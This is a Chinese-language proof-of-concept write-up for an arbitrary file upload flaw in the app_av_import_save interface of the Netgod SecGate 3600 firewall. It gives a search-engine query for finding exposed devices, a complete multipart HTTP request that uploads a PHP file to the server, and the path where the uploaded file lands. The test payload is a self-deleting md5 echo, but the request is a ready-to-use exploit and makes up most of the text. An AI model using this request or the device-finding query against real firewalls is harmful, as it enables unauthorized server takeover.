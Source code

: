 # 网神SecGata 3600防火墙app_av_import_save任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgb(0, 0, 0);">网神 SecGate 3600 防火墙 app_av_import_save接口存在任意文件上传漏洞，攻击者通过构造特殊请求包即可获取服务器权限。</font>

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ 网神SecGata 3600防火墙

# 三、资产测绘
    - hunter:`app.name="网神 SecGate"&&web.title=="网神SecGate 3600防火墙"`

![1691631315585-e71862e7-a889-460a-b2f7-a14e396c2f9b.png](./img/8IEiY_3wdr8DnXFC/1691631315585-e71862e7-a889-460a-b2f7-a14e396c2f9b-765098.png)

+ 登录页面

![1691631344474-a4ef0b41-65a2-4221-8212-3ca32e0b0b40.png](./img/8IEiY_3wdr8DnXFC/1691631344474-a4ef0b41-65a2-4221-8212-3ca32e0b0b40-843416.png)

# 四、漏洞复现
```plain
POST / HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Connection: close
Content-Length: 451
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="reqfile";filename="nhzwe1.php"
Content-Type: text/plain

<?php echo(md5(13123));unlink(__FILE__);?>
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="submit_post"

app_av_import_save
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
```

![1702440125730-b79525ce-efcd-4d20-8d36-50bdd22ff370.png](./img/8IEiY_3wdr8DnXFC/1702440125730-b79525ce-efcd-4d20-8d36-50bdd22ff370-446268.png)

上传文件位置

```plain
/attachements/nhzwe1.php
```

![1702440151735-9e4e75b0-e9eb-4901-aff7-a4d496418e49.png](./img/8IEiY_3wdr8DnXFC/1702440151735-9e4e75b0-e9eb-4901-aff7-a4d496418e49-573179.png)



> 更新: 2024-02-29 23:57:16  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/uay6pavy9qt2qc29>